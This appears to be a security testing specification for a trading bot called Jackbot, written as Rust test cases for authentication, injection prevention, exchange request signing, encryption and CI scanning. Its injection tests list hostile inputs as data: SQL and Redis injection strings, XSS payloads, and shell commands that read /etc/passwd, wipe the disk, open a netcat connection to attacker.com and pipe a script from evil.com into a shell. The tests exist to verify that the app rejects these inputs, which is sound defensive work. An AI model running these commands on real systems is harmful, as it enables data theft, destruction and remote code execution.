

# Security Testing Specification

**Version:** 1.0.0  
**Date:** 2025-07-26  
**Focus:** MVP Security Vulnerabilities  
**Compliance:** OWASP Top 10, CWE/SANS Top 25

## Executive Summary

This specification outlines security testing requirements for Jackbot's MVP features, focusing on authentication, authorization, input validation, and secure communication with exchanges. We target critical vulnerabilities that could lead to fund loss, data breach, or service disruption.

## Security Testing Framework



## 1. Authentication & Authorization

### 1.1 API Key Security

```rust
#[cfg(test)]
mod api_key_security_tests {
    use super::*;
    
    #[tokio::test]
    async fn test_api_key_storage_encryption() {
        let key_manager = ApiKeyManager::new();
        
        // Ensure keys are never stored in plaintext
        let api_key = "test_api_key_12345";
        let stored = key_manager.store_key("binance", api_key).await?;
        
        // Verify encryption
        assert_ne!(stored.encrypted_key, api_key);
        assert!(stored.encrypted_key.starts_with("enc:"));
        
        // Verify decryption
        let decrypted = key_manager.decrypt_key(&stored).await?;
        assert_eq!(decrypted, api_key);
    }
    
    #[tokio::test]
    async fn test_api_key_rotation() {
        let key_manager = ApiKeyManager::new();
        
        // Test key rotation
        let old_key = "old_api_key";
        let new_key = "new_api_key";
        
        key_manager.store_key("binance", old_key).await?;
        key_manager.rotate_key("binance", new_key).await?;
        
        // Verify old key is invalidated
        let old_key_valid = key_manager.validate_key("binance", old_key).await;
        assert!(!old_key_valid);
        
        // Verify new key works
        let new_key_valid = key_manager.validate_key("binance", new_key).await;
        assert!(new_key_valid);
    }
    
    #[tokio::test]
    async fn test_api_key_scope_limitations() {
        let auth_manager = AuthManager::new();
        
        // Test read-only key attempting write operation
        let read_only_key = create_read_only_api_key();
        let write_request = OrderRequest {
            symbol: "BTC-USD".to_string(),
            side: OrderSide::Buy,
            quantity: 0.1,
            order_type: OrderType::Market,
            exchange: "binance".to_string(),
        };
        
        let auth_result = auth_manager.authorize_request(
            &read_only_key,
            "POST",
            "/api/v1/orders"
        ).await;
        
        assert!(auth_result.is_err());
        assert_eq!(auth_result.unwrap_err().code, "INSUFFICIENT_PERMISSIONS");
    }
}
```

### 1.2 Session Management

```rust
#[tokio::test]
async fn test_session_security() {
    let session_manager = SessionManager::new();
    
    // Test session creation
    let user_id = "user123";
    let session = session_manager.create_session(user_id).await?;
    
    // Verify session token is cryptographically secure
    assert!(session.token.len() >= 32);
    assert!(is_cryptographically_random(&session.token));
    
    // Test session expiration
    let expired_session = Session {
        token: session.token.clone(),
        created_at: Utc::now() - Duration::hours(25), // Expired
        user_id: user_id.to_string(),
    };
    
    let validation = session_manager.validate_session(&expired_session.token).await;
    assert!(validation.is_err());
    assert_eq!(validation.unwrap_err().code, "SESSION_EXPIRED");
    
    // Test session hijacking protection
    let different_ip = "192.168.1.200";
    let hijack_attempt = session_manager.validate_session_with_ip(
        &session.token,
        different_ip
    ).await;
    
    assert!(hijack_attempt.is_err());
    assert_eq!(hijack_attempt.unwrap_err().code, "SESSION_IP_MISMATCH");
}
```

## 2. Input Validation & Injection Prevention

### 2.1 SQL Injection Tests

```rust
#[cfg(test)]
mod injection_tests {
    use super::*;
    
    #[tokio::test]
    async fn test_sql_injection_prevention() {
        let db = Database::new_test();
        let malicious_inputs = vec![
            "'; DROP TABLE orders; --",
            "1' OR '1'='1",
            "admin'--",
            "1; UPDATE users SET role='admin' WHERE id=1; --",
        ];
        
        for input in malicious_inputs {
            // Test in symbol field
            let result = db.get_orders_by_symbol(input).await;
            assert!(result.is_ok()); // Should handle safely
            assert!(result.unwrap().is_empty()); // No results
            
            // Verify tables still exist
            let tables_exist = db.verify_schema_intact().await?;
            assert!(tables_exist);
        }
    }
    
    #[tokio::test]
    async fn test_nosql_injection_prevention() {
        let redis_store = RedisStore::new_test();
        
        // Test Redis command injection
        let malicious_key = "key*\r\nFLUSHDB\r\n";
        let result = redis_store.get(malicious_key).await;
        
        assert!(result.is_err());
        assert_eq!(result.unwrap_err().code, "INVALID_KEY_FORMAT");
        
        // Verify data still exists
        let test_value = redis_store.get("test_key").await?;
        assert_eq!(test_value, "test_value");
    }
}
```

### 2.2 Cross-Site Scripting (XSS) Prevention

```rust
#[tokio::test]
async fn test_xss_prevention() {
    let sanitizer = InputSanitizer::new();
    let xss_payloads = vec![
        "<script>alert('XSS')</script>",
        "",
        "javascript:alert('XSS')",
        "<iframe src='javascript:alert(\"XSS\")'></iframe>",
        "<svg onload=alert('XSS')>",
    ];
    
    for payload in xss_payloads {
        // Test order notes field
        let sanitized = sanitizer.sanitize_text(payload);
        assert!(!sanitized.contains("<script"));
        assert!(!sanitized.contains("javascript:"));
        assert!(!sanitized.contains("onerror"));
        
        // Test API response
        let response = create_api_response(payload);
        let json = serde_json::to_string(&response)?;
        assert!(!json.contains("<script"));
    }
}
```

### 2.3 Command Injection Tests

```rust
#[tokio::test]
async fn test_command_injection_prevention() {
    let system_manager = SystemManager::new();
    let command_payloads = vec![
        "; cat /etc/passwd",
        "| nc attacker.com 4444",
        "`rm -rf /`",
        "$(curl http://evil.com/shell.sh | sh)",
    ];
    
    for payload in command_payloads {
        // Test in file path operations
        let result = system_manager.read_log_file(payload).await;
        assert!(result.is_err());
        assert_eq!(result.unwrap_err().code, "INVALID_PATH");
        
        // Test in system metrics
        let metric_result = system_manager.get_metric(payload).await;
        assert!(metric_result.is_err());
    }
}
```

## 3. Exchange API Security

### 3.1 Request Signing Validation

```rust
#[cfg(test)]
mod exchange_security_tests {
    use super::*;
    
    #[tokio::test]
    async fn test_request_signing() {
        let signer = ExchangeRequestSigner::new();
        
        // Test signature generation
        let request = ExchangeRequest {
            method: "POST".to_string(),
            path: "/api/v3/order".to_string(),
            body: r#"{"symbol":"BTCUSDT","side":"BUY","quantity":"0.1"}"#.to_string(),
            timestamp: Utc::now().timestamp_millis(),
        };
        
        let signed = signer.sign_request(&request, "secret_key").await?;
        
        // Verify signature format
        assert!(signed.headers.contains_key("X-MBX-SIGNATURE"));
        let signature = &signed.headers["X-MBX-SIGNATURE"];
        assert_eq!(signature.len(), 64); // HMAC-SHA256 hex
        
        // Test signature tampering
        let mut tampered = signed.clone();
        tampered.body = r#"{"symbol":"BTCUSDT","side":"BUY","quantity":"1.0"}"#.to_string();
        
        let verification = signer.verify_signature(&tampered, "secret_key").await;
        assert!(!verification);
    }
    
    #[tokio::test]
    async fn test_nonce_replay_protection() {
        let nonce_manager = NonceManager::new();
        
        // Generate nonce
        let nonce = nonce_manager.generate_nonce().await;
        assert!(nonce > 0);
        
        // Use nonce
        let used = nonce_manager.use_nonce(nonce).await?;
        assert!(used);
        
        // Attempt replay
        let replay = nonce_manager.use_nonce(nonce).await;
        assert!(replay.is_err());
        assert_eq!(replay.unwrap_err().code, "NONCE_ALREADY_USED");
    }
}
```

### 3.2 TLS/SSL Security

```rust
#[tokio::test]
async fn test_tls_security() {
    let tls_config = TlsConfig::new();
    
    // Test minimum TLS version
    assert_eq!(tls_config.min_version(), TlsVersion::TLS_1_2);
    
    // Test cipher suites
    let allowed_ciphers = tls_config.cipher_suites();
    assert!(!allowed_ciphers.contains(&CipherSuite::TLS_RSA_WITH_RC4_128_SHA));
    assert!(allowed_ciphers.contains(&CipherSuite::TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384));
    
    // Test certificate validation
    let test_cert = include_bytes!("../test-certs/self-signed.pem");
    let validation = tls_config.validate_certificate(test_cert).await;
    assert!(validation.is_err());
    assert_eq!(validation.unwrap_err().code, "INVALID_CERTIFICATE");
}
```

## 4. Data Protection

### 4.1 Sensitive Data Encryption

```rust
#[cfg(test)]
mod data_protection_tests {
    use super::*;
    
    #[tokio::test]
    async fn test_sensitive_data_encryption() {
        let crypto_manager = CryptoManager::new();
        
        // Test API secret encryption
        let api_secret = "super_secret_api_key_123";
        let encrypted = crypto_manager.encrypt_sensitive(api_secret).await?;
        
        // Verify encryption
        assert_ne!(encrypted.ciphertext, api_secret);
        assert!(encrypted.nonce.len() >= 12); // AES-GCM nonce
        assert!(encrypted.tag.len() == 16); // Authentication tag
        
        // Test decryption
        let decrypted = crypto_manager.decrypt_sensitive(&encrypted).await?;
        assert_eq!(decrypted, api_secret);
        
        // Test tampering detection
        let mut tampered = encrypted.clone();
        tampered.ciphertext[0] ^= 0xFF; // Flip bits
        
        let tamper_result = crypto_manager.decrypt_sensitive(&tampered).await;
        assert!(tamper_result.is_err());
        assert_eq!(tamper_result.unwrap_err().code, "DECRYPTION_FAILED");
    }
    
    #[tokio::test]
    async fn test_memory_protection() {
        let secure_string = SecureString::new("sensitive_password");
        
        // Verify memory is zeroed on drop
        let ptr = secure_string.as_ptr();
        let len = secure_string.len();
        
        drop(secure_string);
        
        // Check memory is zeroed (unsafe but necessary for test)
        unsafe {
            let slice = std::slice::from_raw_parts(ptr, len);
            assert!(slice.iter().all(|&b| b == 0));
        }
    }
}
```

### 4.2 Audit Logging

```rust
#[tokio::test]
async fn test_security_audit_logging() {
    let audit_logger = AuditLogger::new();
    
    // Test login attempt logging
    let login_event = SecurityEvent {
        event_type: SecurityEventType::LoginAttempt,
        user_id: Some("user123".to_string()),
        ip_address: "192.168.1.100".to_string(),
        success: false,
        details: "Invalid password".to_string(),
        timestamp: Utc::now(),
    };
    
    audit_logger.log_event(login_event).await?;
    
    // Verify log integrity
    let logs = audit_logger.get_recent_events(10).await?;
    assert!(!logs.is_empty());
    
    // Test log tampering detection
    let log_hash = audit_logger.calculate_log_hash().await?;
    
    // Simulate tampering
    let tampered = audit_logger.tamper_log_for_test().await;
    assert!(!tampered);
    
    let new_hash = audit_logger.calculate_log_hash().await?;
    assert_ne!(log_hash, new_hash);
}
```

## 5. Vulnerability Scanning

### 5.1 Dependency Scanning

```bash
#!/bin/bash
# security-scan.sh

# Run cargo audit
echo "Running dependency vulnerability scan..."
cargo audit

# Check for outdated dependencies
cargo outdated

# Run license compliance check
cargo license

# SAST scanning with semgrep
semgrep --config=auto --json -o security-report.json .
```

### 5.2 Dynamic Application Security Testing (DAST)

```rust
#[cfg(test)]
mod dast_tests {
    use super::*;
    
    #[tokio::test]
    #[ignore] // Run only in security test suite
    async fn test_api_fuzzing() {
        let fuzzer = ApiFuzzer::new("http://localhost:8080");
        
        // Fuzz order endpoint
        let results = fuzzer.fuzz_endpoint(
            "/api/v1/orders",
            HttpMethod::POST,
            FuzzStrategy::Mutation,
            1000 // iterations
        ).await?;
        
        // Check for crashes or errors
        assert_eq!(results.crashes, 0);
        assert_eq!(results.timeouts, 0);
        assert!(results.error_rate < 0.01); // Less than 1% errors
    }
    
    #[tokio::test]
    #[ignore]
    async fn test_rate_limit_bypass() {
        let client = TestClient::new();
        let endpoint = "/api/v1/market/ticker";
        
        // Attempt various bypass techniques
        let bypass_attempts = vec![
            // Different headers
            vec![("X-Forwarded-For", "192.168.1.1")],
            vec![("X-Real-IP", "10.0.0.1")],
            vec![("X-Originating-IP", "172.16.0.1")],
            
            // Multiple IPs
            vec![("X-Forwarded-For", "1.1.1.1, 2.2.2.2, 3.3.3.3")],
        ];
        
        for headers in bypass_attempts {
            let mut success_count = 0;
            
            for _ in 0..150 { // Over rate limit
                let resp = client.get(endpoint)
                    .headers(headers.clone())
                    .send()
                    .await?;
                    
                if resp.status().is_success() {
                    success_count += 1;
                }
            }
            
            // Should be rate limited after 100 requests
            assert!(success_count <= 100, "Rate limit bypassed with headers: {:?}", headers);
        }
    }
}
```

## 6. Compliance Testing

### 6.1 OWASP Top 10 Coverage

| Vulnerability | Test Coverage | Status |
|--------------|---------------|---------|
| A01:2021 – Broken Access Control | ✓ | Implemented |
| A02:2021 – Cryptographic Failures | ✓ | Implemented |
| A03:2021 – Injection | ✓ | Implemented |
| A04:2021 – Insecure Design | ✓ | Planned |
| A05:2021 – Security Misconfiguration | ✓ | Implemented |
| A06:2021 – Vulnerable Components | ✓ | Automated |
| A07:2021 – Auth Failures | ✓ | Implemented |
| A08:2021 – Data Integrity Failures | ✓ | Implemented |
| A09:2021 – Logging Failures | ✓ | Implemented |
| A10:2021 – SSRF | ✓ | Planned |

### 6.2 Regulatory Compliance

```rust
#[cfg(test)]
mod compliance_tests {
    use super::*;
    
    #[tokio::test]
    async fn test_pii_data_handling() {
        let data_handler = DataHandler::new();
        
        // Test PII detection
        let user_data = UserData {
            email: "user@example.com",
            phone: "+1234567890",
            ssn: "123-45-6789", // Should be rejected
        };
        
        let validation = data_handler.validate_pii_compliance(&user_data).await;
        assert!(validation.is_err());
        assert_eq!(validation.unwrap_err().code, "PII_NOT_ALLOWED");
        
        // Test data retention
        let old_data = create_old_user_data();
        let retention_check = data_handler.check_retention_compliance(&old_data).await;
        assert!(!retention_check.compliant);
        assert_eq!(retention_check.reason, "Data exceeds retention period");
    }
    
    #[tokio::test]
    async fn test_audit_trail_completeness() {
        let audit_system = AuditSystem::new();
        
        // Perform actions
        let order = create_test_order();
        let order_id = place_order(order).await?;
        cancel_order(&order_id).await?;
        
        // Verify audit trail
        let audit_trail = audit_system.get_order_audit_trail(&order_id).await?;
        
        assert_eq!(audit_trail.len(), 2);
        assert_eq!(audit_trail[0].action, "ORDER_PLACED");
        assert_eq!(audit_trail[1].action, "ORDER_CANCELLED");
        
        // Verify immutability
        let tamper_attempt = audit_system.modify_audit_entry(&audit_trail[0].id).await;
        assert!(tamper_attempt.is_err());
    }
}
```

## 7. Security Test Execution

### 7.1 Security Test Suite

```bash
#!/bin/bash
# run-security-tests.sh

# Set security test environment
export RUST_TEST_THREADS=1
export SECURITY_TEST_MODE=true

# Run security tests
echo "Running security test suite..."
cargo test --features security --test security_tests

# Run penetration tests
echo "Running penetration tests..."
cargo test --features pentest --test pentest_suite -- --ignored

# Generate security report
echo "Generating security report..."
cargo run --bin security-reporter > security-report.html
```

### 7.2 Continuous Security Integration

```yaml
# .github/workflows/security.yml
name: Security Tests

on:
  push:
    branches: [main, develop]
  pull_request:
  schedule:
    - cron: '0 0 * * *' # Daily

jobs:
  security-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      
      - name: Run security tests
        run: ./scripts/run-security-tests.sh
      
      - name: Dependency audit
        run: |
          cargo audit
          cargo outdated
      
      - name: SAST scan
        uses: returntocorp/semgrep-action@v1
        with:
          config: auto
      
      - name: Container scan
        run: |
          trivy image jackbot:latest
      
      - name: Upload results
        uses: actions/upload-artifact@v2
        with:
          name: security-reports
          path: |
            security-report.html
            security-report.json
```

## 8. Security Metrics

### 8.1 Key Security Indicators

```rust
#[derive(Metrics)]
struct SecurityMetrics {
    #[metric(counter)]
    failed_auth_attempts: Counter,
    
    #[metric(counter)]
    blocked_requests: Counter,
    
    #[metric(gauge)]
    active_sessions: Gauge,
    
    #[metric(histogram)]
    encryption_duration: Histogram,
    
    #[metric(counter)]
    security_events: Counter,
}
```

### 8.2 Security Dashboard

```yaml
# grafana/security-dashboard.json
{
  "dashboard": {
    "title": "Jackbot Security Dashboard",
    "panels": [
      {
        "title": "Failed Authentication Attempts",
        "targets": [{
          "expr": "rate(failed_auth_attempts_total[5m])"
        }]
      },
      {
        "title": "Blocked Malicious Requests",
        "targets": [{
          "expr": "rate(blocked_requests_total[5m])"
        }]
      },
      {
        "title": "Active Sessions",
        "targets": [{
          "expr": "active_sessions"
        }]
      }
    ]
  }
}
```

## Next Steps

1. **Implement Security Tests** - Start with authentication and injection tests
2. **Set Up SAST/DAST** - Integrate automated security scanning
3. **Configure WAF Rules** - Implement web application firewall
4. **Security Training** - Team security awareness sessions
5. **Incident Response Plan** - Document security incident procedures